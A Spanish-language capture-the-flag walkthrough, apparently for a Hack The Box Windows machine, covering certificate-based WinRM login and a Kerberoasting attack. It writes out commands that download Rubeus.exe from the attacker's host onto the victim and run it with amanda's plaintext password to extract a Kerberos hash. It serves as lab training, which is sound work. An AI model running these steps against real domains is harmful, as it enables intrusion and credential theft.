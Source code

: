 Aqui vemos un directorio `/certsrv`. Si entramos con firefox, hay un panel de inicio de session y si le ponemos las credenciales de amanda, podemos entrar.

Vemos un **Microsoft Active Directory Certificate Services**. Es un servicio que nos permite crear certificados para un usuario.

1. En la web le damos a `Request Certificate -> advanced certificate request`, vemos que tenemos que enviar un certificado base64-encoded CMC o PKCS
1. Creamos un certificado (Private Key) en la maquina de atacante

    ```bash
    openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
    cat amanda.csr | tr -d '\n' | xclip -sel clip
    ```

1. Colamos el contenido en la web y podemos descargar el DER encode certificate.


## Vuln exploit & Gaining Access {-}

### Ganando accesso con Win-RM SSL {-}


```bash
mv /home/s4vitar/Downloads/certnew.cer .
evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

ya estamos a dentro de la maquina pero no podemos ver la flag. Como previsto aqui vamos a tener que convertirnos al usuar **MRKLY**.


### Kerberoasting attack con Rubeus {-}

1. Descargamos el rubeus.exe

    ```bash
    wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
    python -m http.server 80
    ```

1. Lo descargamos desde la maquina victima

    ```powershell
    cd C:\Windows\Temp
    mkdir BH
    cd BH
    iwr -uri http://10.10.16.3/Rubeus.exe -Outfile Rubeus.exe
    ```

1. Lanzamos el binario

    ```powershell
    C:\Windows\Temp\BH\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
    ```

Ya podemos ver el hash NTLM de version 2 del usuario **MRKLY**
